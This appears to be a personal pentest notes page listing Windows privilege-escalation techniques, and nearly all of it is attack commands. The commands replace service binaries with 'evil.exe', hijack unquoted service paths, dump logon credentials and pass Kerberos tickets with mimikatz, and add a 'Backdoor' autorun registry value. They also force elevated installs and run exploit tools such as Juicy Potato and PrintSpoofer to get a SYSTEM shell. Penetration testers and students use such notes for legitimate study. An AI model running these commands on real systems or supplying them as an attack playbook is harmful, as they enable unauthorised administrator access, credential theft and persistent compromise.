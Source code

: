 ```yaml
---
layout: notes
permalink: /notes/windows/privesc/
title: Windows Privilege Escalation
---
```


# Windows Privilege Escalation

## Service Misconfigurations
```powershell
# Query service config
sc qc <service>

# Get service path
wmic service get name,displayname,pathname,startmode

# Check permissions
accesschk.exe -uwdqs <service>

# Replace service binary
copy /b c:\\evil.exe c:\\windows\\system32\\service.exe

# Restart service
net stop <service>
net start <service>

# Modify service path
sc config <service> binPath= "c:\\evil.exe"
```

## Unquoted Service Paths
```powershell
# Find unquoted paths
wmic service get name,pathname | findstr /i " "

# Exploit unquoted path
sc config <service> binPath= "c:\\evil.exe c:\\windows\\system32\\cmd.exe"
```

## Token Manipulation
```powershell
# List privileges
whoami /priv

# Run as another user
Runas /user:<admin> cmd.exe

# Dump credentials
mimikatz.exe "sekurlsa::logonpasswords"

# Pass-the-Ticket
mimikatz.exe "kerberos::ptt <ticket.kirbi>"

# Token theft
Incognito.exe
```

## Registry Exploits
```powershell
# Check auto-run keys
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

# Add auto-run key
reg add HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /t REG_SZ /d c:\\evil.exe

# Check AlwaysInstallElevated
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer

# Add elevated install key
reg add HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

## Tools
- PowerUp: ``` Import-Module .\PowerUp.ps1; Invoke-AllChecks ```
- SharpUp: ``` SharpUp.exe ```
- Watson: ``` Watson.exe ```
- Juicy Potato: ``` juicyPotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -t * ```
- Seatbelt: ``` Seatbelt.exe -group=all ```
- PowerSploit: ``` Import-Module .\PowerSploit.ps1; Get-ProcessTokenPrivilege ```
- UACme: ``` uacme.exe ```
- PrintSpoofer: ``` PrintSpoofer.exe -i -c cmd ```